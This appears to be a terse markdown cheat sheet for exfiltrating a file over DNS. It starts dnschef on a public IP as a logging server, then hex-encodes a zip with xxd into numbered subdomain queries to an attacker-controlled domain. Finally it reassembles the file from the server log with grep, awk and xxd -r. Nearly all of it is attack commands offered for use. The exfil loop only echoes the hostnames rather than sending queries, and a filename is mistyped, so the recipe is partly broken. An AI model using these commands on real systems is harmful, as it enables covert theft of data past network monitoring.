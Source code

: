 ### 1 - Run dns server on domain 

./dnschef.py -i <public ip> --fakeip 127.0.0.1 --logfile <logfile>

### 2 - Exfil file using xxd and dig

xxd -p -c 8 4digits.hex.zip |  nl -s"." -nrz -w5 | while read h; do echo $h.<domain>; done

  xxd => hexdump in columns of 8 width
  
  nl => line numbering (-s = delimiter; -nrz = number format; -w width)
  
  dig => DNS request
  
### 3 - Re-assemble packets

cat <logfile> | grep <domain> | awk '{print $12}' | sort -h | cut -d. -f2 > <logfile.hex>
xxd -r -p <logile.hex>

